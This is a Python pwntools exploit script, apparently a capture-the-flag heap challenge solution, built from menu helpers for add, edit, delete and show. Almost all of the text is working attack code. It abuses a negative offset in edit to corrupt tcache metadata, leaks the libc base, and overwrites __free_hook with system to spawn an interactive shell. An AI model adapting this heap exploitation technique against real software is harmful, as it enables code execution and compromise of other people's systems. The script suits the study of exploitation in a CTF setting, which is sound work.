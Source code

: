 ```
            if target is not None:
                sh = target.get_sh()
                target.sh = sh
                if target.connect_fail:
                    return 'ERROR : Can not connect to target server!'
            else:
                sh = get_sh()
    flag = get_flag(sh)
    return flag


def choice(idx):
    sh.sendlineafter("&gt; ", str(idx))


def add(size, content):
    choice(1)
    sh.sendlineafter("size&gt; ", str(size))
    sh.sendlineafter('msg&gt; ', content)


def edit(idx, offset, content):
    choice(2)
    sh.sendlineafter("idx&gt; ", str(idx))
    sh.sendlineafter("offset&gt; ", str(offset))
    sh.sendafter("msg&gt; ", content)


def delete(idx):
    choice(3)
    sh.sendlineafter("idx&gt; ", str(idx))


def show(idx):
    choice(4)
    sh.sendlineafter("idx&gt; ", str(idx))


def pwn(sh, elf, libc):
    context.log_level = "debug"
    add(0x58, 'sh\x00')  # 0
    add(0x2c4, 'wjh')  # 1
    add(0x168, 'wjh')  # 2
    add(0x88, 'wjh')  # 3
    add(0x88, 'wjh')  # 4
    delete(4)

    edit(1, -0x80000000, p64(0) + p64(0x251) + '\x00' * 7 + '\x07' + '\x00' * (0x78 - 8) + '\n')

    add(0x88, 'wjh')  # 5
    edit(1, -0x80000000, p64(0) + p64(0x251) + '\x00' * 7 + '\x07' + '\x00' * (0x78 - 8) + '\n')
    delete(3)
    show(5)
    libc_base = get_address(sh, True, info='libc_base:\t', offset=-0x3ebca0)
    free_hook_addr = libc_base + 0x3ed8e8
    system_addr = libc_base + 0x4f550
    edit(1, -0x80000000, p64(0) + p64(0x251) + '\x00' * 7 + '\x01' + '\x00' * (0x78 - 8) + p64(free_hook_addr) + '\n')
    add(0x88, p64(system_addr))
    # gdb.attach(sh, "b *$rebase(0x0000000000000E43)")
    delete(0)
    sh.interactive()

```
